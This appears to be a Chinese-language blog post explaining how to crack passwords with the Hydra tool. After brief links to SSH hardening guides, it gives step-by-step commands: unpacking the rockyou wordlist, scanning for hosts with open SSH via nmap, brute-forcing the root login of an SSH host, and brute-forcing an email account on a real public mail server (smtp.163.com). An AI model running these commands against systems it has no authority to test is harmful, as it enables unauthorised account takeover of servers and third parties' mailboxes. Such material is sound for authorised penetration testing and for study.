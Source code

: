 ```yaml
---
layout:post
title:使用Hydra通过ssh破解密码
---
```


#使用Hydra通过ssh破解密码

Hydra是非常高效的网络登录破解工具，它可以对多种服务程序执行暴力破解（SSH、VNC等等）。  

防止这种攻击其实很容易，方法很多。以SSH为例：  

[Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)  
[在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)  
[CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)  
[Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3119)  
___
Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。  

xhydra：
![xhydra](http://topspeedsnail.com/images/2016/4/Screenshot%20from%202016-04-16%2010-26-48.png)  

hydra：
![hydra](http://topspeedsnail.com/images/2016/4/Screenshot%20from%202016-04-16%2010-28-41.png)  

我使用命令行版本：hydra  

####**字典**  

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。  

####使用前先解压：    
```bash
# gzip -d /usr/share/wordlists/rockyou.txt.gz
```
####**使用nmap扫描开启SSH服务的主机**  

扫描SSH服务(22端口)，确定可以施行破解的主机。  
```bash
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
```
####**使用hydra暴力破解**  
```bash
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
```
####**破解邮箱密码**：  
```bash
# hydra -S -l test@163.com -P /usr/share/wordlists/rockyou.txt -e ns -V -s 465 -t 1 smtp.163.com smtp
```  
更多选项，查看man hydra。
